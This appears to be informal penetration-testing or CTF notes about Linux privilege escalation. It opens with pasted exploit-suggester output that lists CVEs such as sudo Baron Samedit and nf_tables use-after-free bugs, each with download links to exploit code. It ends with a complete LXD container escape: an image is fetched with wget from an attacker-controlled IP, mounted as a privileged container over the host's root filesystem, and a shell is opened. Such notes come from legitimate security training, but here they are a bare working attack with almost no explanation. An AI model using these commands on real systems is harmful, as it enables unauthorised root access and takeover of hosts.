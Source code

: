 Hacking itself is THINKING OUTSIDE THE BOX

​

​

[+] [CVE-2021-3156] sudo Baron Samedit

​

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt

   Exposure: probable

   Tags: mint=19,[ ubuntu=18|20 ], debian=10

   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

​

[+] [CVE-2021-3156] sudo Baron Samedit 2

​

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt

   Exposure: probable

   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10

   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

​

[+] [CVE-2018-18955] subuid_shell

​

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1712

   Exposure: probable

   Tags: [ ubuntu=18.04 ]{kernel:4.15.0-20-generic},fedora=28{kernel:4.16.3-301.fc28}

   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/45886.zip

   Comments: CONFIG_USER_NS needs to be enabled

​

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

​

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/

https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/

   Exposure: less probable

   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}

   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c

   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

​

[+] [CVE-2022-2586] nft_object UAF

​

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5

   Exposure: less probable

   Tags: ubuntu=(20.04){kernel:5.12.13}

   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1

   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

​

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

​

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html

   Exposure: less probable

   Tags: ubuntu=20.04{kernel:5.8.0-*}

   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c

   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c

   Comments: ip_tables kernel module must be loaded

​

[+] [CVE-2019-18634] sudo pwfeedback

​

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/

   Exposure: less probable

   Tags: mint=19

   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c

   Comments: sudo configuration requires pwfeedback to be enabled.

​

[+] [CVE-2019-15666] XFRM_UAF

​

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc

   Exposure: less probable

   Download URL: 

   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

​

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

​

   Details: https://seclists.org/oss-sec/2017/q1/184

   Exposure: less probable

   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154

​

​

​

alpine-v3.13-x86_64-20210218_0139.tar.gz

​

python3 -m http.server

wget http://10.10.4.60:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz

​

cd ~/lxd-alpine-builder

python3 -m http.server

wget http://10.10.4.60:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz

​

lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage

lxc init myimage mycontainer -c security.privileged=true

lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

lxc start mycontainer

lxc exec mycontainer /bin/sh

cd /mnt/root

​
